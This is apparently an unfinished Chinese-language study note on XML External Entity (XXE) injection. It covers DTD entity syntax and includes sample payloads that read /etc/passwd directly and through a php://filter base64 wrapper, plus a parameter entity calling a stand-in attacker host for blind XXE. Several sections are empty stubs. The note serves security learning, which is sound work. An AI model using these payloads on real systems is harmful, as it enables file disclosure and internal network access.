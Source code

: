 # XML外部实体

XML外部实体（XML External Entity，XXE）

![https://cdn.acunetix.com/wp-content/uploads/2017/07/11110336/image1.png](https://cdn.acunetix.com/wp-content/uploads/2017/07/11110336/image1.png)

- 读取本地文件
- 内网主机探测
- 内网主机端口扫描
带内实体注入攻击 - XML解析后，有结果回显
基于错误
带外实体注入攻击

## XML语法

可扩展标记语言（E**x**tensible **M**arkup **L**anguage，XML）是一种标记语言。XML是从标准通用标记语言（SGML）中简化修改出来的。它被设计用来传输和存储数据。[^1] 

- XML声明（declaration），如`<?xml version="1.0" encoding="UTF-8"?>`
- 文档类型定义（Document Type Definition，DTD），可以看成一个或者多个XML文件的模板，在这里可以定义XML文件中的元素、元素的属性、元素的排列方式、元素包含的内容等等。[^2]
  - 实体类型 - 内部实体和外部实体，通用实体和参数实体

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE Person [ 
  <!ENTITY name "John"> 
]>
<Person>
<Name>&name;</Name>
<Age>20</Age>
</Person>
```

[^1]: [XML - w3school](https://www.w3school.com.cn/xml/index.asp)
[^2]: [DTD - w3school](https://www.w3school.com.cn/dtd/index.asp)

### 通用实体

在DTD中定义，在XML文档中引用

声明方式：`<!ENTITY 实体名称 "实体的值">`

引用方式：`&实体名称;`

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY myentity "my entity value" > ]>
<foo>&myentity;</foo>
```

### 外部实体
可以从本地或远程调用实体

声明方式：`<!ENTITY 实体名称 SYSTEM "URI/URL">`

引用方式：`&实体名称;`

```xml
<!DOCTYPE foo [ <!ENTITY ext SYSTEM "http://normal-website.com" > ]>
<!DOCTYPE foo [ <!ENTITY ext SYSTEM "file:///etc/passwd" > ]>
```

另一种引用方式

`<!DOCTYPE 根元素名称 PUBLIC "DTD标识名" "公用DTD的URI">`


### 参数实体
在DTD中定义，只能在DTD中引用

声明方式：`<!ENTITY % 实体名称 "实体的值">`

引用方式：`%实体名称;`

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ 
<!ENTITY % myparameterentity "my parameter entity value" >
<!ENTITY % xxe SYSTEM "http://web-attacker.com"> 
%myparameterentity;%xxe; ]>
```

> 通常在Blind XXE中使用

## 读文件

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE data [<!ENTITY example SYSTEM "/etc/passwd"> ]>
<data>&example;</data>
```

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE data [<!ENTITY example SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd"> ]>
<data>&example;</data>
```

## 内网主机探测


## 绕过方法

- 修改编码



<!--
TODO:
docx文档的XXE，https://xz.aliyun.com/t/11203

-->

通用实体、参数实体、预定义实体

## 经典赛题分析
## 参考资料
- https://tttang.com/archive/1716/